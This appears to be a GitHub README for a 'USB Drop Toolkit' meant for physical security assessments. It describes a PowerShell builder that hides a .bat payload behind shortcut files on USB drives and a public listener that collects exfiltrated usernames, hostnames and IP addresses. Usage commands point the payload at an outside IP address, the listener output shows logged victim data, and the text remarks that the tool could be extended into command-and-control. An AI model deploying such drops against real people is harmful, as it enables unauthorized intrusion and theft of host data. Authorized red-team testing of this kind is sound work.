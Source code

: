 # USB Drop Toolkit
___
USB Drop Toolkit is designed for physical security assessments where USB drops are part of the engagement. Includes:
- A PowerShell script to format USB drives with hidden .bat payload executed by shortcut files.
- A listener to capture exfiltrated host and network details

Base version of this isn't built for C2, but totally could be... just not worth the maintenance here...

![image](https://github.com/user-attachments/assets/74bbe1ac-e8be-45e9-96e5-a30811b770ff)
___
## Usage

1. Use usb_drop_builder.ps1 to generate USB with hidden .bat paylaod.
```ps1
PS C:\Users\matt\Downloads> .\usb_drop_builder.ps1 54.218.99.118
Select a USB drive to format and prepare:
[0] E: WORK_DOCS (28.89 GB free)
Enter number of drive to use: 0

[+] USB drop successfully created at E:\
DriveLetter FriendlyName FileSystemType DriveType HealthStatus OperationalStatus SizeRemaining     Size
----------- ------------ -------------- --------- ------------ ----------------- -------------     ----
E           WORK_DOCS    FAT32          Removable Healthy      OK                     28.89 GB 28.89 GB
```
2. Start publicly accessible listener... then profit:
```bash
./usb_listener.sh
[*] Listening on port 8080
[*] Logging to ./usb_drop_logs.txt

=== Hit @ 2025-06-05 03:42:58 ===
User: hackerman\matt
Hostname: Hackerman
Internal IPs:
IPv4 Address. . . . . . . . . . . : <redacted-ip>
IPv4 Address. . . . . . . . . . . : <redacted-ip>
External IP Address: <redacted-ip>
```
